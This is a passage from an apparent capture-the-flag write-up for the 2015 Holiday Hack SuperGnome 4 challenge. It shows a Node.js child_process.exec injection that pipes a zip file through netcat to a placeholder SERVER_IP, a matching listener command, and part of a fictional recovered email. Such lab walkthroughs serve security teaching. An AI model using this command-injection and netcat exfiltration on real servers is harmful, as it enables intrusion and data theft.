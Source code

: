 We can go out on a limb and use a very simple `netcat` exfiltration technique to an AWS instance in order to grab the files off the SG4.

For the Node.js side, let's execute a command:

```js
require('child_process').exec('nc SERVER_IP PORT < /gnome/www/files/factory_cam_4.zip')
```

This will connect to our `SERVER_IP` and listening `PORT` and will funnel the precious bits in `factory_cam_4.zip` to us.

On our `SERVER`, we simply start a listening port:

```
nc -l 61000 > factory_cam_4.zip
```

We then throw the files from SuperGnome 4 to our server via the `child_process` exec cradle above:

![sg-04](/assets/images/holidayhack2015/sg04_5.png)

Ba-da-bing-ba-da-boom! And now the server kindly ships the `factory_cam_4.zip` file to us. How nice of them..

We can repeat this process with `20151203133815.zip` and `gnome.conf`. We finally extract the files as commonly used in the previous three SuperGnomes.

The email found in the `.pcap`:

```
From: "c" <c@atnascorp.com>
To: <psychdoctor@whovillepsychiatrists.com>
Subject: Answer To Your Question
Date: Thu, 3 Dec 2015 13:38:15 -0500

Dr. O'Malley,

In your recent email, you inquired:

When did you first notice your anxiety about the holiday season?

Anxiety is hardly the word for it.  It's a deep-seated hatred, Doctor.

Before I get into details, please allow me to remind you that we operate
under the strictest doctor-patient confidentiality agreement in the
business.  I have some very powerful lawyers whom I'd hate
to invoke in the event of some leak on your part.  
I seek your help because you are the best psychiatrist in all of Who-ville.

To answer your question directly, as a young child (I must have been no more
than two), I experienced a life-changing interaction.  Very late on
Christmas Eve, I was awakened to find a grotesque green Who dressed in a
```
